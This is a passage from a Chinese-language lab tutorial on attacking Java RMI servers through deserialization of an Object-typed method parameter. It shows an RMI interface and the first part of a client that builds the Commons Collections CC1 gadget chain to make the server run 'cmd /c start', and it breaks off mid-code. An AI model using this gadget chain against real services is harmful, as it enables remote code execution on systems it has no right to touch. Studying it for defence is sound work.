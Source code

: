 ## 攻击服务端


### 基于Object参数反序列化攻击


如果服务端的某个方法，传递的参数是Object类型的参数，当服务端接收数据时，就会调用readObject，所以我们可以从这个角度入手来攻击服务端。


我们在User接口中加一个addUser方法，是接收Object类型参数的



```
package rmi_injection_labs1.service;
import java.rmi.RemoteException;
public interface User extends java.rmi.Remote {
    public Object getUser() throws RemoteException;
    public void addUser(Object user) throws RemoteException;
}

```

在接口有方法的参数为Object类型的情况下，新增以下客户端代码



```
package rmi_injection_labs1.client;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import rmi_injection_labs1.service.User;
import java.lang.annotation.Documented;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;
public class LocalUserClientAttack2ServerByCC1 {
    public static void main(String[] args) throws Exception {
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        Class transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
        final Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
```